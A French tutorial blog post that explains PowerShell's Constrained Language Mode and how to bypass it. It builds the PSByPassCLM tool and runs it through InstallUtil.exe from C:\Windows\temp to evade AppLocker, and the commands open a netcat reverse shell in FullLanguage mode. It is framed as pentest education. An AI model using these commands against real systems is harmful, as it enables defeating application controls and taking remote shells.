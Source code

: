```yaml
---
title: "[CLM] Bypass le mode de langage contraint en PowerShell"
description: clm.jpg
tags: ["Dans cet article je vous présente le système CLM (Constrained Language Mode) vous montrez le fonctionnement et de vous montrez comment bypass ce système qui vous donne pas assez de permissions dans un système PowerShell."]
---
```


![Flower](../clm.jpg)

Introduction
----
Dans ce cours à but éducatif nous allons voir `COMMENT BYPASS CONSTRAINED LANGUAGE MODE (CLM)` ou en français (Mode de langage contraint) sous PowerShell grâce à l'outil `PSByPassCLM`, téléchargeable sur [GITHUB](https://github.com/padovah4ck/PSByPassCLM). C'est un outil très utile en `PENTEST` et je devais absolument vous présenter ça. <br />

Cet outil permet d'avoir beaucoup plus de permissions dans une session `PowerShell` et exécuter des commandes comme par exemple télécharger des fichiers sur un système à distance et bien d'autre chose. <br />

CLM
----
Avant d'aller vers le technique, il faut avant tout comprendre le système `CLM`. Il s’agit d’une restriction qui vous empêche d’abuser de nombreuses fonctionnalités de powershell et de vous en servir pour énumérer, augmenter les privilèges, organiser des charges utiles et une tonne d’autres éléments. C'est `AppLocker` qui limite tout et bloque les accès, AppLocker c'est un système pour côntrolez des applications et de gérer il est disponible sur `Windows Server` et `Windows 10`.

Il y'a `4 modes` en particulier en PowerShell : 

- FullLanguage
- RestrictedLanguage
- NoLanguage 
- ConstrainedLanguage

### LANGUE COMPLÈTE (FullLanguage) :

Le mode de langue `FullLanguage` autorise tous les éléments de langue de la session. FullLanguage est le mode de langue par défaut pour les sessions par défaut sur toutes les versions de Windows, à l'exception de `Windows RT`.

### LANGUE RESTREINTE (RestrictedLanguage) :

En mode linguistique `RestrictedLanguage`, les utilisateurs peuvent exécuter des commandes (applets de commande, fonctions, commandes CIM et workflows), mais ne sont pas autorisés à utiliser des blocs de script.

### AUCUNE LANGUE (NoLanguage) :

En mode linguistique `NoLanguage`, les utilisateurs peuvent exécuter des commandes, mais ils ne peuvent utiliser aucun élément de langage dans un PowerShell.

### LANGUE CONTRAINTE (Constrained Language) :

Le mode de langage `ConstrainedLanguage` autorise toutes les cmdlets Windows et tous les éléments de langage PowerShell, mais limite les types autorisés.

CHANGER DE LANGUE/MODE
----

Il est tout à fait possible de changer de `LANGUE/MODE` depuis le registre pour assurer la sécurité, il y a d'autre moyen également, par exemple faire avec le système `GPO` (Group Policy Object) dans un environnement `Active Directory`.

![Flower](https://image.noelshack.com/fichiers/2019/23/2/1559643342-screenshot-1.png)

Le chemin pour modifier de `LANGUE/MODE` est dans `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment`, et par défaut il y'a pas de `Valeur chaîne/REG_SZ` qui se nomme `__PSLockdownPolicy`, il faut créé une valeur qui se nomme `__PSLockdownPolicy` et il accepte seulement 4 `donnée(s)`.

Donnée (1)  : Pour le `FullLanguage`. <br />
Donnée (2) : Pour le `RestrictedLanguage`. <br />
Donnée (3) : Pour le `NoLanguage`. <br />
Donnée (4) : Pour le `ConstrainedLanguage` <br />

DEMONSTRATION
----

Actuellement je suis en mode `FullLanguage`. La commande à exécuter pour examiner le mode de `LANGAGE` de votre session PowerShell `$ExecutionContext.SessionState` :

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559581679-screenshot-2.png)

Comme vous pouvez le constater, je suis en mode `FullLanguage`, cette fonctionnalité designe justement j'ai les permissions pour exécuter des tâches, ce qui est plutôt pas mal. Mais dans certains cas assez étrange, vous pouvez percevoir ce type de chose pour éviter que les intrus exécutent n'importe quoi ou bien simplement pour la sécurité : <br />

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559586084-screenshot-4.png)

Concrètement comme vous pouvez le voir je suis en mode `ConstrainedLanguage`, donc impossible d'exécuter un fichier à distance, télécharger des fichiers à distance etc..

.NET
----
Avant de commencer les choses nous devons commencer par télécharger le framework `.NET`. Le .NET Framework est un cadriciel pouvant être utilisé par un système d'exploitation Microsoft Windows et Microsoft Windows Mobile depuis la version 5.

Commencer par ouvrir `Exécuter` avec la touche `WINDOWS + R` et ensuite de saisir `appwiz.cpl` et ensuite d'aller vers `Activer ou désactiver des fonctionnalités Windows`. Chercher ce système `.NET Framework 3.5 (inclut .NET 2.0 et 3.0)` (pour mon cas). Vous cochez la petite case et ensuite vous appuyez sur `OK` afin d'installer `.NET` sur votre ordinateur.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559583478-screenshot-5.png)

Build
----
Allez dans les dossiers de `.NET` pour build le fichier `.sln` dans le dossier `PSByPassCLM-master`. Le dossier de `.NET` est situer dans `C:\Windows\Microsoft.NET\Framework64\v4*`.

    PS C:\Users\Administrateur> cd C:\Windows\Microsoft.NET\Framework64\v4*
    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\MSBuild.exe C:\Users\Administrateur\Desktop\PSByPassCLM-master\PSBypassCLM\PsBypassCLM.sln
 
Et pendant ce temps là dans le dossier `*\PSByPassCLM-master\PSBypassCLM\PSBypassCLM\bin\Debug\PsBypassCLM` il a crée un fichier exécutable et ce fichier va nous permettre de changer de mode dans une session PowerShell.

Reverse Shell
----
Donc nous arrivons presque à la fin pour effectuer notre reverse shell, nous allons utiliser l'outil `InstallUtil.exe` dans le même dossier que `MSBuild.exe`. Avant ça je vais crée un `listener` qui écoute le port `9001`.

    PS C:\Users\Administrateur\Desktop\netcat-1.11> nc.exe -lvnp 9001
    listening on [any] 9001 ...

Et enfin de saisir cette commande pour effectuer notre reverse shell et être en mode `FullLanguage` dans notre système PowerShell (that's cool) : 

    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=localhost /rport=9001 /U c:\windows\temp\PsBypassCLM.exe

Ah oui un détail assez important n'oublier surtout pas de mettre le fichier `PsBypassCLM.exe` dans `C:\Windows\temp\PsBypassCLM.exe` car dans certaines configuration on peut `BYPASS` le système `AppLocker`.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559585660-screenshot-2.png)

Et enfin pendant ce temps là dans notre `listener` j'ai accès à un shell en mode `FullLanguage` et pour pouvoir exécuter des commandes dans le système.

    PS C:\Users\Administrateur\Desktop\netcat-1.11> nc.exe -lvnp 9001
    listening on [any] 9001 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60002
    PS C:\Windows\System32> $ExecutionContext.SessionState.LanguageMode
    FullLanguage

CONCLUSION
----
Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, aura éclairci certaines choses. C'était indéniable de vous présenter ce système car en `PENTEST` dans les machines `Windows` ça m'est déjà arrivé et c'était nécessaire de faire un `TUTORIAL` sur ce système.
